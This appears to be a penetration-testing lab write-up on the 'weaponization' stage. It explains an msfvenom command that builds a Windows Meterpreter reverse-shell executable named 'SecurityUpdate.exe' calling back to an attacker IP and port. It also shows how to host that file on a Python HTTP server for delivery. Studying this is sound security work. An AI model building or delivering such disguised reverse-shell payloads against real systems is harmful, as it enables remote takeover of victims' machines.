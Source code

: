 # Weaponization

## Objective:
Create a malicious payload and a delivery mechanism for the attack.

## Action:
1. Generate Malicious Payload with MSFVenom: 

    Use **MSFVenom**, a tool for creating payloads, to generate a **malicious executable** that executes a **Meterpreter shell** (Metasploit's remote control payload). 

![image](https://github.com/user-attachments/assets/636861be-e51d-4841-a33c-b1e6b0e7b608)

### Explanation of the Command:

  - `msfvenom` – A tool used to generate payloads (malicious code) for penetration testing.
  - `-p windows/meterpreter/reverse_tcp` – This specifies the payload type:
    - `windows/meterpreter/reverse_tcp` creates a **reverse shell**, meaning the victim's machine will connect back to the attacker's system.
  - `LHOST=10.19.19.134` – The attacker's IP address where the victim's machine will connect to.
  - `LPORT=4444` – The port on which the attacker's computer is listening for incoming connections.
  - `-f exe` – Specifies the output format of the payload as a **Windows executable** (`.exe`).
  - `-o SecurityUpdate.exe` – Saves the malicious executable file as `SecurityUpdate.exe`.

## The Output:

- The tool automatically targets **Windows**.
- **x86 (32-bit architecture)** is selected, as no specific architecture was defined.
- The payload is **354 bytes** in size, while the final executable is **73,802 bytes**.
- The malicious file is saved as `SecurityUpdate.exe`.

### What This Means:

When `SecurityUpdate.exe` is executed on a Windows system, it connects back to the attacker's IP (**10.19.19.134:4444**) and provides remote control through the **Meterpreter shell**.


### Verifying the Payload Type:
Use the `file` command to check the type of the generated file (`SecurityUpdate.exe`):

```
 file SecurityUpdate.exe
```
1. `PE32 executable` – This means it is a Portable Executable (PE) file, which is a common format for Windows programs.
2. `(GUI)` – The program is designed to run with a Graphical User Interface (GUI) rather than in the command line (CLI).
3. `Intel 80386` – This indicates the file is built for 32-bit (x86) architecture.
4. `for MS Windows` – The file is meant to run on Microsoft Windows.
5. `4 sections` – The executable has four sections inside it (such as code, data, resources, etc.), which is typical for compiled Windows programs.

This confirms that `SecurityUpdate.exe` is a **32-bit Windows executable** with a GUI. If run, it will execute the embedded Meterpreter payload.

2. Host the Payload Using a Python HTTP Server.

   Host the payload on a **Python HTTP server** running on port `8000`:

![image](https://github.com/user-attachments/assets/1c66b5c9-4f4c-4285-8f5a-d86b5a14c244)

### Command Explanation:

```
python3 -m http.server 8000
```

1. `python3` – Runs Python version 3.
2. `-m http.server` – Uses Python’s built-in web server module to start a temporary HTTP server.
3. `8000` – Specifies that the server should run on port 8000 (you can change this to any available port).

### Output of the Command:

  - `"Serving HTTP on 0.0.0.0 port 8000"` – The server is now running and accessible from any computer on the network.
  - `"http://0.0.0.0:8000/"` – You (or others on the network) can access it by typing http://your-ip:8000/ in a web browser.

### What This Means:

  - If you run this command in a folder, Python will share all the files in that folder over HTTP.
  - You can download files from this machine by visiting `http://your-ip:8000/` in a browser or using `wget` or `curl`.
  - Useful for quick file sharing or setting up a local web server for testing.
